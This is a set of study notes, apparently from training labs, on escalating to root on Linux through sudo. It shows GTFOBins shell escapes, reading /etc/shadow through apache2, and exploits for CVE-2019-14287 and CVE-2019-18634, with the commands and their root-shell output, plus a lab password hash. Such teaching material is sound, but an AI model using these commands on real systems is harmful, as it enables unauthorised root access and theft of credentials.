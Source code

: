 ## Shell Escaping

We can find the commands our user can run as sudo by typing `sudo -l`

```bash
TCM@debian:~$ sudo -l
Matching Defaults entries for TCM on this host:
    env_reset, env_keep+=LD_PRELOAD

User TCM may run the following commands on this host:
    (root) NOPASSWD: /usr/sbin/iftop
    (root) NOPASSWD: /usr/bin/find
    (root) NOPASSWD: /usr/bin/nano
    (root) NOPASSWD: /usr/bin/vim
    (root) NOPASSWD: /usr/bin/man
    (root) NOPASSWD: /usr/bin/awk
    (root) NOPASSWD: /usr/bin/less
    (root) NOPASSWD: /usr/bin/ftp
    (root) NOPASSWD: /usr/bin/nmap
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
```

We see that there are several commands we can run as sudo without a password as this user. We can use one of these commands to see whether there is shell escape available though [GTFOBins](https://gtfobins.github.io/). For example we can exploit `vim` as follow.

```bash
TCM@debian:~$ sudo vim -c ':!/bin/sh'
sh-4.1# id
uid=0(root) gid=0(root) groups=0(root)
```

## Intended Functionality

There can be situations where a direct path of exploitation is not available based on the sudo commands we have access to. However, we can manipulate the functionalities of tools to gains access to resources as sudo. 

For example, if we can run `apache2` as sudo, we can use the `-f` flag to provide the `/etc/passwd` file as the config file resulting in an error and printing out the first line as the error message.

```bash
TCM@debian:~$ sudo apache2 -f /etc/shadow
Syntax error on line 1 of /etc/shadow:
Invalid command 'root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::', perhaps misspelled or defined by a module not included in the server configuration
```

Another example is if we can run `wget` as sudo, we can use the `--post-file` command to send the `/etc/shadow` file through  to a listener that we set up.

## LD_PRELOAD

Check [[Privilege Escalation#^f03211|here]] for more details

## CVE-2019-14287

This vulnerability is present in older version of Sudo (< 1.8.28). This can be only exploited in a very specific scenario where a user has a permission in the following format: `<user> ALL=(ALL:!root) NOPASSWD:ALL`

This would let the user execute any command as another user, but would (theoretically) prevent them from executing the command as the superuser/admin/root. 

However, if you specify a UID of `-1` (or its unsigned equivalent: `4294967295`), Sudo would incorrectly read this as being 0 (i.e. root). This means that by specifying a UID of `-1` or `4294967295`, you can execute a command as root, despite being explicitly prevented from doing so. [THM Link](https://tryhackme.com/room/sudovulnsbypass)

```bash
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
    
tryhackme@sudo-privesc:~$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2

tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash 
root@sudo-privesc:~# id
uid=0(root) gid=1000(tryhackme) groups=1000(tryhackme)
root@sudo-privesc:~# whoami
root
```


## CVE-2019-18634

By default Linux does not display asterisks when typing a password. However, this can be enabled by editing the `/etc/sudoers` file to include the `pwfeedbak` option.

```bash
# cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset,pwfeedback
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
```

However, when this option is turned on, it is possible to perform a buffer overflow attack on sudo versions < 1.8.26. A source code to exploit this vulnerability can be found [here](https://github.com/saleemrashid/sudo-cve-2019-18634). Once the file is downloaded and complied, we simply need to run it to gain root privileges. [THM Link](https://github.com/saleemrashid/sudo-cve-2019-18634)

```bash
tryhackme@sudo-bof:~$ ls
exploit
tryhackme@sudo-bof:~$ ./exploit 
[sudo] password for tryhackme: 

Sorry, try again.
# # 
# id
uid=0(root) gid=0(root) groups=0(root),1000(tryhackme)
```

